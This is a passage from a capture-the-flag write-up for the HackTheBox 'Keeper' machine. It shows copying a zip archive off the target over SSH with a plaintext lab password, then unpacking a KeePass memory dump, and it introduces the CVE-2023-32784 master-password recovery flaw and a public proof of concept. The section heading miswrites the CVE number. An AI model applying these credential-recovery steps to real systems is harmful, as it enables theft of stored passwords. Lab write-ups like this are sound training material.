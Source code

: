 And I can grab `user.txt`:

```
lnorgaard@keeper:~$ cat user.txt
f8e0a027************************

```

## Shell as root

### Keepass Dump

As mentioned in the ticket, there’s a zip archive in lnorgaard’s home directory:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt

```

I’ll pull it back to my host using `scp` (it’s 84MB, so it takes a minute):

```
oxdf@hacky$ sshpass -p 'Welcome2023!' scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .

```

It has two files in it:

```
oxdf@hacky$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
oxdf@hacky$ ls -lh passcodes.kdbx KeePassDumpFull.dmp
-rwxrwx--- 1 root vboxsf 242M May 24  2023 KeePassDumpFull.dmp
-rwxrwx--- 1 root vboxsf 3.6K May 24  2023 passcodes.kdbx

```

### CVE-2022-32784

#### Background

There’s a [2023 information disclosure vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) in KeepPass such that:

> In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

I have a dump of the KeePass memory, so this seems like a good thing to try. I’ll show how to do it from both Linux and Windows.

At the time of Keeper’s release, there was really only one POC exploit on GitHub named [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) in DotNet.
